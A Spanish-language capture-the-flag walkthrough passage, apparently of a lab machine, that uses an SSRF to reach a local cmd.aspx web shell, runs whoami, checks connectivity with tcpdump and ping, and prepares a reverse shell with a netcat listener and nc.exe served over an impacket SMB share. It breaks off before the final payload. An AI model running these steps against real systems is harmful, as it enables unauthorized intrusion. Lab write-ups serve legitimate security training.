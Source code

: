 ```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx
```

functiona.

Si le lanzamos un whoami, nos redirige en una url un poco turbia. Analizando el codigo fuente vemos que la peticion es get con el
nombre xcmd.

```bash
http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=whoami
```

### Controlamos si tenemos conectividad con la maquina de atacante {-}

1. Nos ponemos en escucha por trasa ICMP

    ```bash
    tcpdump -i tun0 icmp -n
    ```

1. en la web

    ```bash
    http://10.10.10.57:62696/test.asp?u=http://localhost/cmd.aspx?xcmd=ping 10.10.14.8
    ```

Como es una maquina windows, tenemos que recivir 4 pings y es el caso. Tenemos conectividad con la maquina victima.

## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Entablar una reverse shell {-}

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Preparamos un nc.exe para la maquina victima

    ```bash
    locate nc.exe
    cp /usr/share/sqlninja/apps/nc.exe ./content
    ```

1. Nos creamos un registro compartido a nivel de red

    ```bash
    cd content
    impacket-smbserver smbFolder $(pwd) -smb2support
    ```

1. En la web

